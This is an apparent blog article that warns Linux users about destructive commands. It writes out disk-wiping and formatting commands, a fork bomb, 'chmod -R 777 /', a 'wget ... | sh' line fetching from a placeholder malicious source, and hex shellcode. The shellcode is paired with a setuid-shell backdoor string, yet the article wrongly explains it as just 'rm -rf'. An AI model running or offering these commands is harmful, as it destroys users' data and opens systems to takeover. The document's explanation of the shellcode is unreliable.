 # 10 Destructive Linux Commands You Should Never Run

> What are the most dangerous Linux commands?

I have been asked this question numerous times and I have avoided answering that because there is no definite list of dangerous Linux commands.

You have the tools that enable you to control and modify every aspect of your operating system. I am not trying to scare you but if you are unfamiliar with the commands and tools, you can screw up your system pretty easily.

Imagine the scenario of a young child in a household. There are numerous ways the kid can hurt herself. But does this mean the child should not be allowed outside the crib? That would be damaging to her growth.

This is where parents set boundaries and guide the child. Don’t go near the fire. Don’t poke your fingers in the power outlets. As the child grows and gains experience, she can turn the stove on, make a fire in the fireplace and plug in the power cables.

Similarly, if you are aware of a few known risky commands, you may avoid falling into the traps of trolls trying to trick you into running commands and messing up your system.

As you gain experience and know the meaning and usages of the commands and tools, less will be the chances of destroying your system with silly and tricky commands.

# Commands
## Wipe-out everything on root without formating
```bash
sudo rm -rf /*
```
This one probably is the most infamous command circling in all kinds of social media. You’ll often find trolls commenting this in various discussions.

The command rm is used to remove files/directories. The flags -r and -f are used to denote recursive removal of all files inside the specified directory. Now, without root privilege, this command won’t do any harm.

Running the command sudo rm -rf / also will not create any issues as most distributions provide a failsafe option. You need to specify –no-preserve-root with it to actually run it.

## Overwrite your current partition
```bash
echo "Hello" > /dev/sda1
```
This will overwrite everything on `/dev/sda1`.

## Move everything into a void
```bash
mv /home/user/*  /dev/null
```
No root needed, as you move files **from** your homedir.
There is a void inside every Linux system. And that void is `/dev/null`

Whatever you throw into this area is lost forever. Also, it reports the writing process as a success after discarding the data, which is the main reason for its destructiveness.

## Format your drive
```bash
sudo mkfs.ext3 /dev/sda
```
The command does its job and you end up with a messed up system beyond recovery. Meaning: you will not be able to boot your OS properly.

## Fork bomb
```bash
:(){:|:&};:
```
`&` – Shell Background Operator. It informs the shell to put the command in the background. Here, it defines a function called ‘:‘, which calls itself twice, once in the foreground and once in the background. This process keeps on executing again and again till the system freezes due to using up all available resources ( cpu & ram ).

As the name suggests, the fork bomb forks itself and eventually becomes a chain bomb and eats up all the system resources. You’ll be forced to reboot the system, which is not as bad as the other commands in this list.

## Overwrite important config files
```bash
command > /etc/config_filename
```
Now, if you use some important configuration file as the place to write data, it will replace the content, leaving a broken system.

## Replace current partition with garbase/random data
```bash
dd if=/dev/urandom of=/dev/sda
cat /dev/urandom > filename
```
dd command is used as a low-level copying tool. Here, it takes random data from /dev/random and replaces the partition /dev/sda with this garbage.
Second command generates **random data** and inserts it into filename. If not terminated with Ctrl + C, the file can occupy a considerable amount of space, which may be disastrous for low-end systems.

## Expose you filesystem to everyone
```bash
(sudo) chmod -R 777 /
```
The root file system is not accessible to other users without privileges. While this ensures a private and secure system, you can upside down this system with one single command.
The above command exposes all files on the root partition to everyone. What it means is that everyone using the system has read, write, and execution permission. This is not good for your system.

## Download (and run) malicious content
How do you install software in Linux? You use the official package manager or ready to use packages as Deb/RPM, Snap. Flatpak etc.
However, some software are not packaged and their developers provide shell scripts to download and run. Take homebrew for example.
You download a shell file and run it as root to install a software in your system. Do you see the problem with it?
While it works with official software like Homebrew, you should double check the content of the shell script you are downloading before running it directly like this:
```bash
wget http://malicious_source -O- | sh
```
Such commands will download and run malicious scripts in your system, which can have serious consequences like data being stolen due to leak........

## Disquised commands
There are many ways you can run commands in a Linux terminal. One such way is the hex-coded commands.
```bash
char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68”
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99”
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7”
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56”
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31”
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69”
“\x6e\x2f\x73\x68\x00\x2d\x63\x00”
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;
```
While it looks fancy, this is a coded/obscured version of `rm -rf` command. It does the same effect as running the previous command. So, while copying and pasting such fancy commands from the internet, be cautious.